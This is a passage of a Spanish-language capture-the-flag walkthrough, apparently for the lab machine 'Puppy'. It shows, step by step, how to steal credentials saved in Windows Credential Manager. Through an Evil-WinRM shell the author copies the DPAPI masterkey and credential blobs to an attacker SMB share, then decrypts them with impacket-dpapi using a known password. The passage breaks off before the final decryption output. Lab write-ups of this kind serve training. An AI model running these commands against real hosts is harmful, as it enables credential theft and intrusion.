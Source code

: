INFO: Done in 00M 35S
INFO: Compressing output into 20250528144135_bloodhound.zip


# 14 - Windows Credential Manager
Intenta encontrarlo aquí en el paso 1. Primero, obtén las credenciales guardadas en el Administrador de Credenciales de Windows. Este utiliza cifrado DPAPI (CryptProtectData) y vincula la clave maestra del usuario o equipo.
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

Descargar directamente aquí parece dar un error, abrí un servicio smb para transmisión
[root@kali] /home/kali/Puppy  
❯ impacket-smbserver share ./share -smb2support

*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob


Descifre la clave maestra DPAPI del usuario (clave maestra) utilizando la contraseña del usuario (ChefSteph2025!) y el SID, y genere la clave maestra del usuario (clave descifrada)
[root@kali] /home/kali/Puppy/share  
❯ impacket-dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84


Descifre las credenciales almacenadas (credential_blob) con la clave maestra obtenida en el paso 1 y genere las credenciales en texto plano (nombre de usuario y contraseña).

Obtenga la contraseña de steph.cooper_adm.

[root@kali] /home/kali/Puppy/share  
❯ impacket-dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
